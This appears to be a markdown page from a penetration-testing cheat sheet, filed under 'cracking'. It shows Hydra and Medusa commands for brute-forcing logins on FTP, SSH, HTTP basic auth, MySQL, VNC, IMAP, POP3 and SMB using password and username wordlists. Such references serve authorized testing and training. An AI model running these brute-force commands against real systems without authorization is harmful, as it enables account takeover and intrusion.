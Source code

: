 ```yaml
---
title: Login
layout: page
parent: cracking
---
```


# Login

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Login bypass tools

### Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a very fast and flexible login cracker that supports many different protocols. It can be used to perform brute-force attacks against various services, including HTTP, FTP, SSH, and more.

```bash
hydra -l user -P /tmp/wordlists/passwords/password.txt ftp://192.168.0.1
```

You can also use the `-t` flag to define the number of connects in parallel per target which is defaulted to 16, or use the `-m` flag for more options specific to each module.
The uppercase flags are to be used when you want to use a list (when you don't know this credential), and the lowercase when you know this login information.

- Basic HTTP auth :

```bash
hydra -C wordlist.txt TARGET_IP -s PORT http-get /
```

- SSH :

```bash
hydra -l alice -P /tmp/wordlists/passwords/password.txt -u -f ssh://TARGET_IP:PORT -t 4
```

- MySQL :

```bash
hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -f mysql://TARGET_IP -V
```

- VNC :

```bash
hydra -l bob –P /tmp/wordlists/passwords/password.txt -s PORT TARGET_IP vnc
```

- Other examples :

```bash
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -M targets.txt ssh
```

### Medusa

[Medusa](https://github.com/jmk-foofus/medusa) is a speedy, parallel, and modular, login brute-forcer.
There are many other modules that are supported such as :

- CVS
- FTP
- HTTP
- RLOGIN
- SSHv2

To display them, simply use this command :

```bash
medusa -d
```

And to get specific options for a given module :

```bash
medusa -M smbnt -q
```

The following command instructs Medusa to test all passwords listed in passwords.txt against a single user (administrator) on the host 192.168.0.20 via the SMB service. The "-e ns" instructs Medusa to additionally check if the administrator account has either a blank password or has its password set to match its username (administrator).

```bash
medusa -h 192.168.0.20 -u administrator -P /tmp/wordlists/passwords/password.txt -e ns -M smbnt
```
